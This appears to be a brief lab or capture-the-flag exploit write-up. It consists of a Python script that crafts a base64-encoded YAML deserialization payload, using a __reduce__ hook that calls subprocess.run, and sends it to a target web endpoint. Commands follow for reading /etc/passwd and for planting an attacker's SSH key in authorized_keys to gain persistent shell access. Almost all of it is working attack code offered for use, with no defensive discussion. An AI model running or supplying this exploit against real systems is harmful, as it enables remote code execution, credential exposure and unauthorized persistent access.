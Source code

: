 
```
#!/usr/bin/env python3
import yaml
import subprocess
from base64 import b64encode
import requests
import sys

class RCE:
    def __init__(self, command):
        self.command = command

    def __reduce__(self):
        return subprocess.run, (self.command, {"capture_output": True, "text": True})


def craft_exploit(obj):
    # Convert the object to a YAML string
    stuff = yaml.dump(obj).encode()
    # Encode the YAML string in base64
    return b64encode(stuff).decode()


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print(f"Usage: {sys.argv[0]} <target URL> <command>")
        sys.exit(1)
    
    target = sys.argv[1]
    command_str = sys.argv[2]
    
    # Split the command string into a list of arguments
    command = command_str.split()

    # Create an RCE object with the command to be executed
    payload = target + "?yaml=" + craft_exploit(RCE(command))
    
    # Send the GET request to the target with the payload
    r = requests.get(payload)
    
    # Print the response text
    print(r.text)
```

Simple Command:

```python3 exploit.py "http://10.10.110.101:5000/search" "cat /etc/passwd"```

Generate RSA Key Pair

```ssh-keygen -t rsa -b 2048 -f mykey```

Run the Exploit Script to append the public key

```
python3 exploit.py "http://10.10.110.101:5000/search" "bash -c 'echo $(cat mykey.pub) >> ~/.ssh/authorized_keys'"
```

Finally run 

```ssh -i mykey user@target-ip```